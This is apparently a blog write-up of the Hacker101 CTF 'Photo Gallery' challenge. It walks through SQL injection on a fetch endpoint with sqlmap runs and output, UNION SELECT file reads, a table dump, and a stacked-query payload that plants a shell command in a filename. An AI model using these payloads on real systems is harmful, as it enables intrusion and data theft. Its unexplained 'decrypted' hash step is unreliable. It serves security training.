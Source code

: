 ```yaml
---
title: Hacker101 CTF Photo Gallery writeup
description: A write up for the Photo Gallery [moderae] challenge
published: true
datePublished: 1609676432536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackerone
  - hacker101
  - security
thumbnailPhoto: /hackerone/hackerone.png
bannerPhoto: /hackerone/hackerone.png
canonicalUrl:
---
```


# Photo Gallery _[moderate]_

This is my Write Up for the "Photo Gallery" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to be an image gallery, but one of the images is broken.
The missing one is called `Invisible`, so lets look into that.

```
http://34.74.105.127/ad3e8c7df9/
```

![initial page](/hackerone/photogallery-start.png "initial page")

## Information gathering

with Burp we were able to find that the server returns no content for this image.
images are loaded with a `GET` Request to the server like so:

`GET /ad3e8c7df9/fetch?id=1 HTTP/1.1`

this also aligns with the first tip we are provided:

> Hint 1: _Consider how you might build this system yourself. What would the **query for fetch** look like?_

naturally we start fuzzing the `id` parameter.

```python
GET /ad3e8c7df9/fetch?id=4 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=0 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=-1 HTTP/1.1 # 500
```

alright, no quick wins, so let's give it a try with fizzing using sqlmap.
Quickly we are able to see that the server seems to be vulnerable to some attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2"
```

This command runs for quite a while and will try to find vulnerabilities in the fetch endpoint.
when we are done we should know what to do next.

## Gathered Data

### sqlmap identified the following injection point(s) with a total of 311 HTTP(s) requests:

```python
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=2 AND 3567=3567

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=2 AND (SELECT 8480 FROM (SELECT(SLEEP(5)))KHRS)
```

```python
[21:44:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

### Our Target Server:

    | Type      | Service      | Version                  | Vulnerable?    |
    | --------- | ------------ | ------------------------ | -------------- |
    | OS        | Linux Ubuntu | ??                       | not focused    |
    | Webserver | Nginx        | 1.14.0                   | no             |
    | Database  | MySQL        | >= 5.0.12 (MariaDB fork) | yes (id param) |

Good, we got something, we know the server is vulnerable to multiple vulnerabilities such as a 'boolean base blind'. We also found the Webserver is Nginx v1.14.0, which sadly has no usable vulnerabilities here. But with us now knowing the exact os and DB System used lets run sqlmap again with that info and see what we get.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2" -f --os=linux --dbms=mysql --level=3 -o
```

we dont really get any more useful information from here.
soo.. were kinda stuck lets just get another hint then:

> Hint 2: _Take a few minutes to consider the **state of the union**_

The state uf the union? are they hinting on using UNION statements in the query?
_The UNION operator is used to combine the result-set of two or more SELECT statements._
That seems like somethng we can make use of, so lets try and combine our query statements f.e. like this:

http://34.74.105.127/ad3e8c7df9/fetch?id=2 UNION SELECT 'something'

but what do we look for? Lets get another hint.

> Hint 3: _This application runs on the **uwsgi-nginx-flask-docker** image_

uwsgi-nginx? hmm havent heard of that, but sems to be some kind of portable all in one flask. lets look for the docs.

https://uwsgi-docs.readthedocs.io/en/latest/Configuration.html#ini-files

> uWSGI can be configured using several different methods.

YAML, JSON, INI are some supported formats -> ini beeing the defualt so lets try getting the 'uwsgi.ini' file?

![union select wiht burp repeater](/hackerone/union-select-ini.png "union select wiht burp repeater")

this returns us some configdata pointing to module main which is the entrypoint.

```python
[uwsgi]
module = main
callable = app
```

so lets see if we can also fethc the main.py

```python
http://35.190.155.168/c947e97f6e/fetch?id=4%20UNION%20SELECT%20%27main.py%27--
```

Here we get lots of infos our **first FLAG** and the db connection settings:

### FLAG 0:

```python
%s
' % (pid, sanitize(ptitle)) fns.append(pfn) rep += 'Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '' rep += '
\n' return home.replace('$ALBUMS$', rep) @app.route('/fetch') def fetch(): cur = getDb().cursor() if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0: abort(404)
# It's dangerous to go alone, take this: # ^FLAG^9e6d57c394c129??????????????????????????????f74dbf2faa0abd571b32c7$FLAG$ return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read() if __name__ == "__main__": app.run(host='0.0.0.0', port=80)
```

`return MySQLdb.connect(host="localhost", user="root", password="", db="level5")`

we also see that they are using the photos table

`cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))`

lets try to fuzz that with sqlmap, since we now know the DB and tables info we can launch a targeted attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=1" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 2
```

This can take quite a while.. for me it crashed after 40 minutes, so i gave it another go with just focusing on the column `filename` since, here is the value we need.we do this by adding the -C parameter, i also increased the thradcount to 4 to try and get faster results. I also changed the url to contain id=3 since this is the id we want to get the info from.

```python
sqlmap -u "http://35.190.155.168/c947e97f6e/fetch?id=3" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 4 -C filename
```

This means that swlmap will start with the filename of id=3 which is exactly what we want right now.

![starts to query filename of id 3](/hackerone/photo-gallery-hash.png "query on the filename of id 3")
So lets have a look at our results:

```python
Database: level5
Table: photos
[3 entries]
+------------------------------------------------------------------+
| filename |
+------------------------------------------------------------------+
| 9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa |
| files/adorable.jpg |
| files/purrfect.jpg |
+------------------------------------------------------------------+
```

> you might be getting partial values like so:
> `9ef8fc5di15625db993f1c8e120beafc6873d801a804670?????????????????`
> you should be able to re-run sqlmap to find the missing characters
> `9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa`

decrypted: `\*||+ls+-a+tmp.txt`

so we try this request:
`GET /ad3e8c7df9/fetch?id=3\*||+ls+-a+tmp.txt`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename=%27\*%20||%20ls%20./files%20%3Etmp.txt%20%27%20where%20id=3;%20commit;%20-- HTTP/1.1`

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'temp.txt'-- HTTP/1.1`

```bash
"^FLAG^9ef8fc5da15????????????????????????????????????????????782ca11fa$FLAG$"
"^FLAG^63a407d0083????????????????????????????????????????????4564ee9f2$FLAG$"
HOSTNAME=ad3e8c7df92d
SHLVL=0
```
